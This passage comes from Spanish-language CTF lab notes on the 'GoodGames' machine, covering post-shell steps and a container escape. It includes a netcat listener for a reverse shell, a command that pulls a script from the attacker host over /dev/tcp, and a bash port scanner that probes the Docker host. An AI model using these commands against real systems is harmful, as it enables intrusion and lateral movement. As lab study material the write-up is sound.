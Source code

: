 Mientras nos ponemos en escucha por el puerto 443 en nuestra maquina con el comando
`nc -nlvp 443`
# Accedemos a la maquina y vemos la primera flag
![[Goodgames14.png]]
![[Goodgames15.png]]
Tenemos que tener en cuenta el home de augustus, que puede ser relevante en un futuro

-------
# [[Apuntes Directo/Herramientas-Comandos/Tratamiento de la TTY|Tratamiento de la TTY]]

----

# [[Salir del contenedor docker TERMINAR]]
Tenemos la sospecha de que estamos en un contenedor, por el nombre despues de root@3a453ab39d3d
Confirmamos que estamos en un contenedor usando `hostname -I` somos la ip 172.19.0.2
![[Goodgames16.png]]

Usamos el comando `mount | grep augustus` y nos dice que la particion del disco duro esta montada en /dev/sda1, lo cual no es de relevancia, en el /etc/group no figura el grupo 1000, por lo tanto pensamos que es un grupo de la maquina host. y en el comando `route -n` nos muestra que a la direccion ip 172.19.0.1 es donde va todo nuestro trafico. Asi que asumimos que es la ip de la maquina host
![[Goodgames17.png]]
Mandamos un ping a 172.19.0.1, y nos responde
![[Goodgames18.png]]

Nos vamos a mandar el archivo portScanner.sh desde nuestra maquina a la maquina victima
```shell
Nuestra maquina: nc -nlvp 443 < portScanner.sh
Maquina victima: cat < /dev/tcp/10.10.16.3/443 > portScanner.sh
Y despues despues desde la maquina victima, darle permiso de ejecucion con chmod +x portScanner.sh

```
```python
#!/bin/bash

function ctrl_c(){
    echo "[!] Saliendo.."
    exit 1
}

trap ctrl_c INT

for i in $(seq 1 65535); do
    timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$i" 2>/dev/null && echo "[!]Puerto abierto: $i" &

done
```
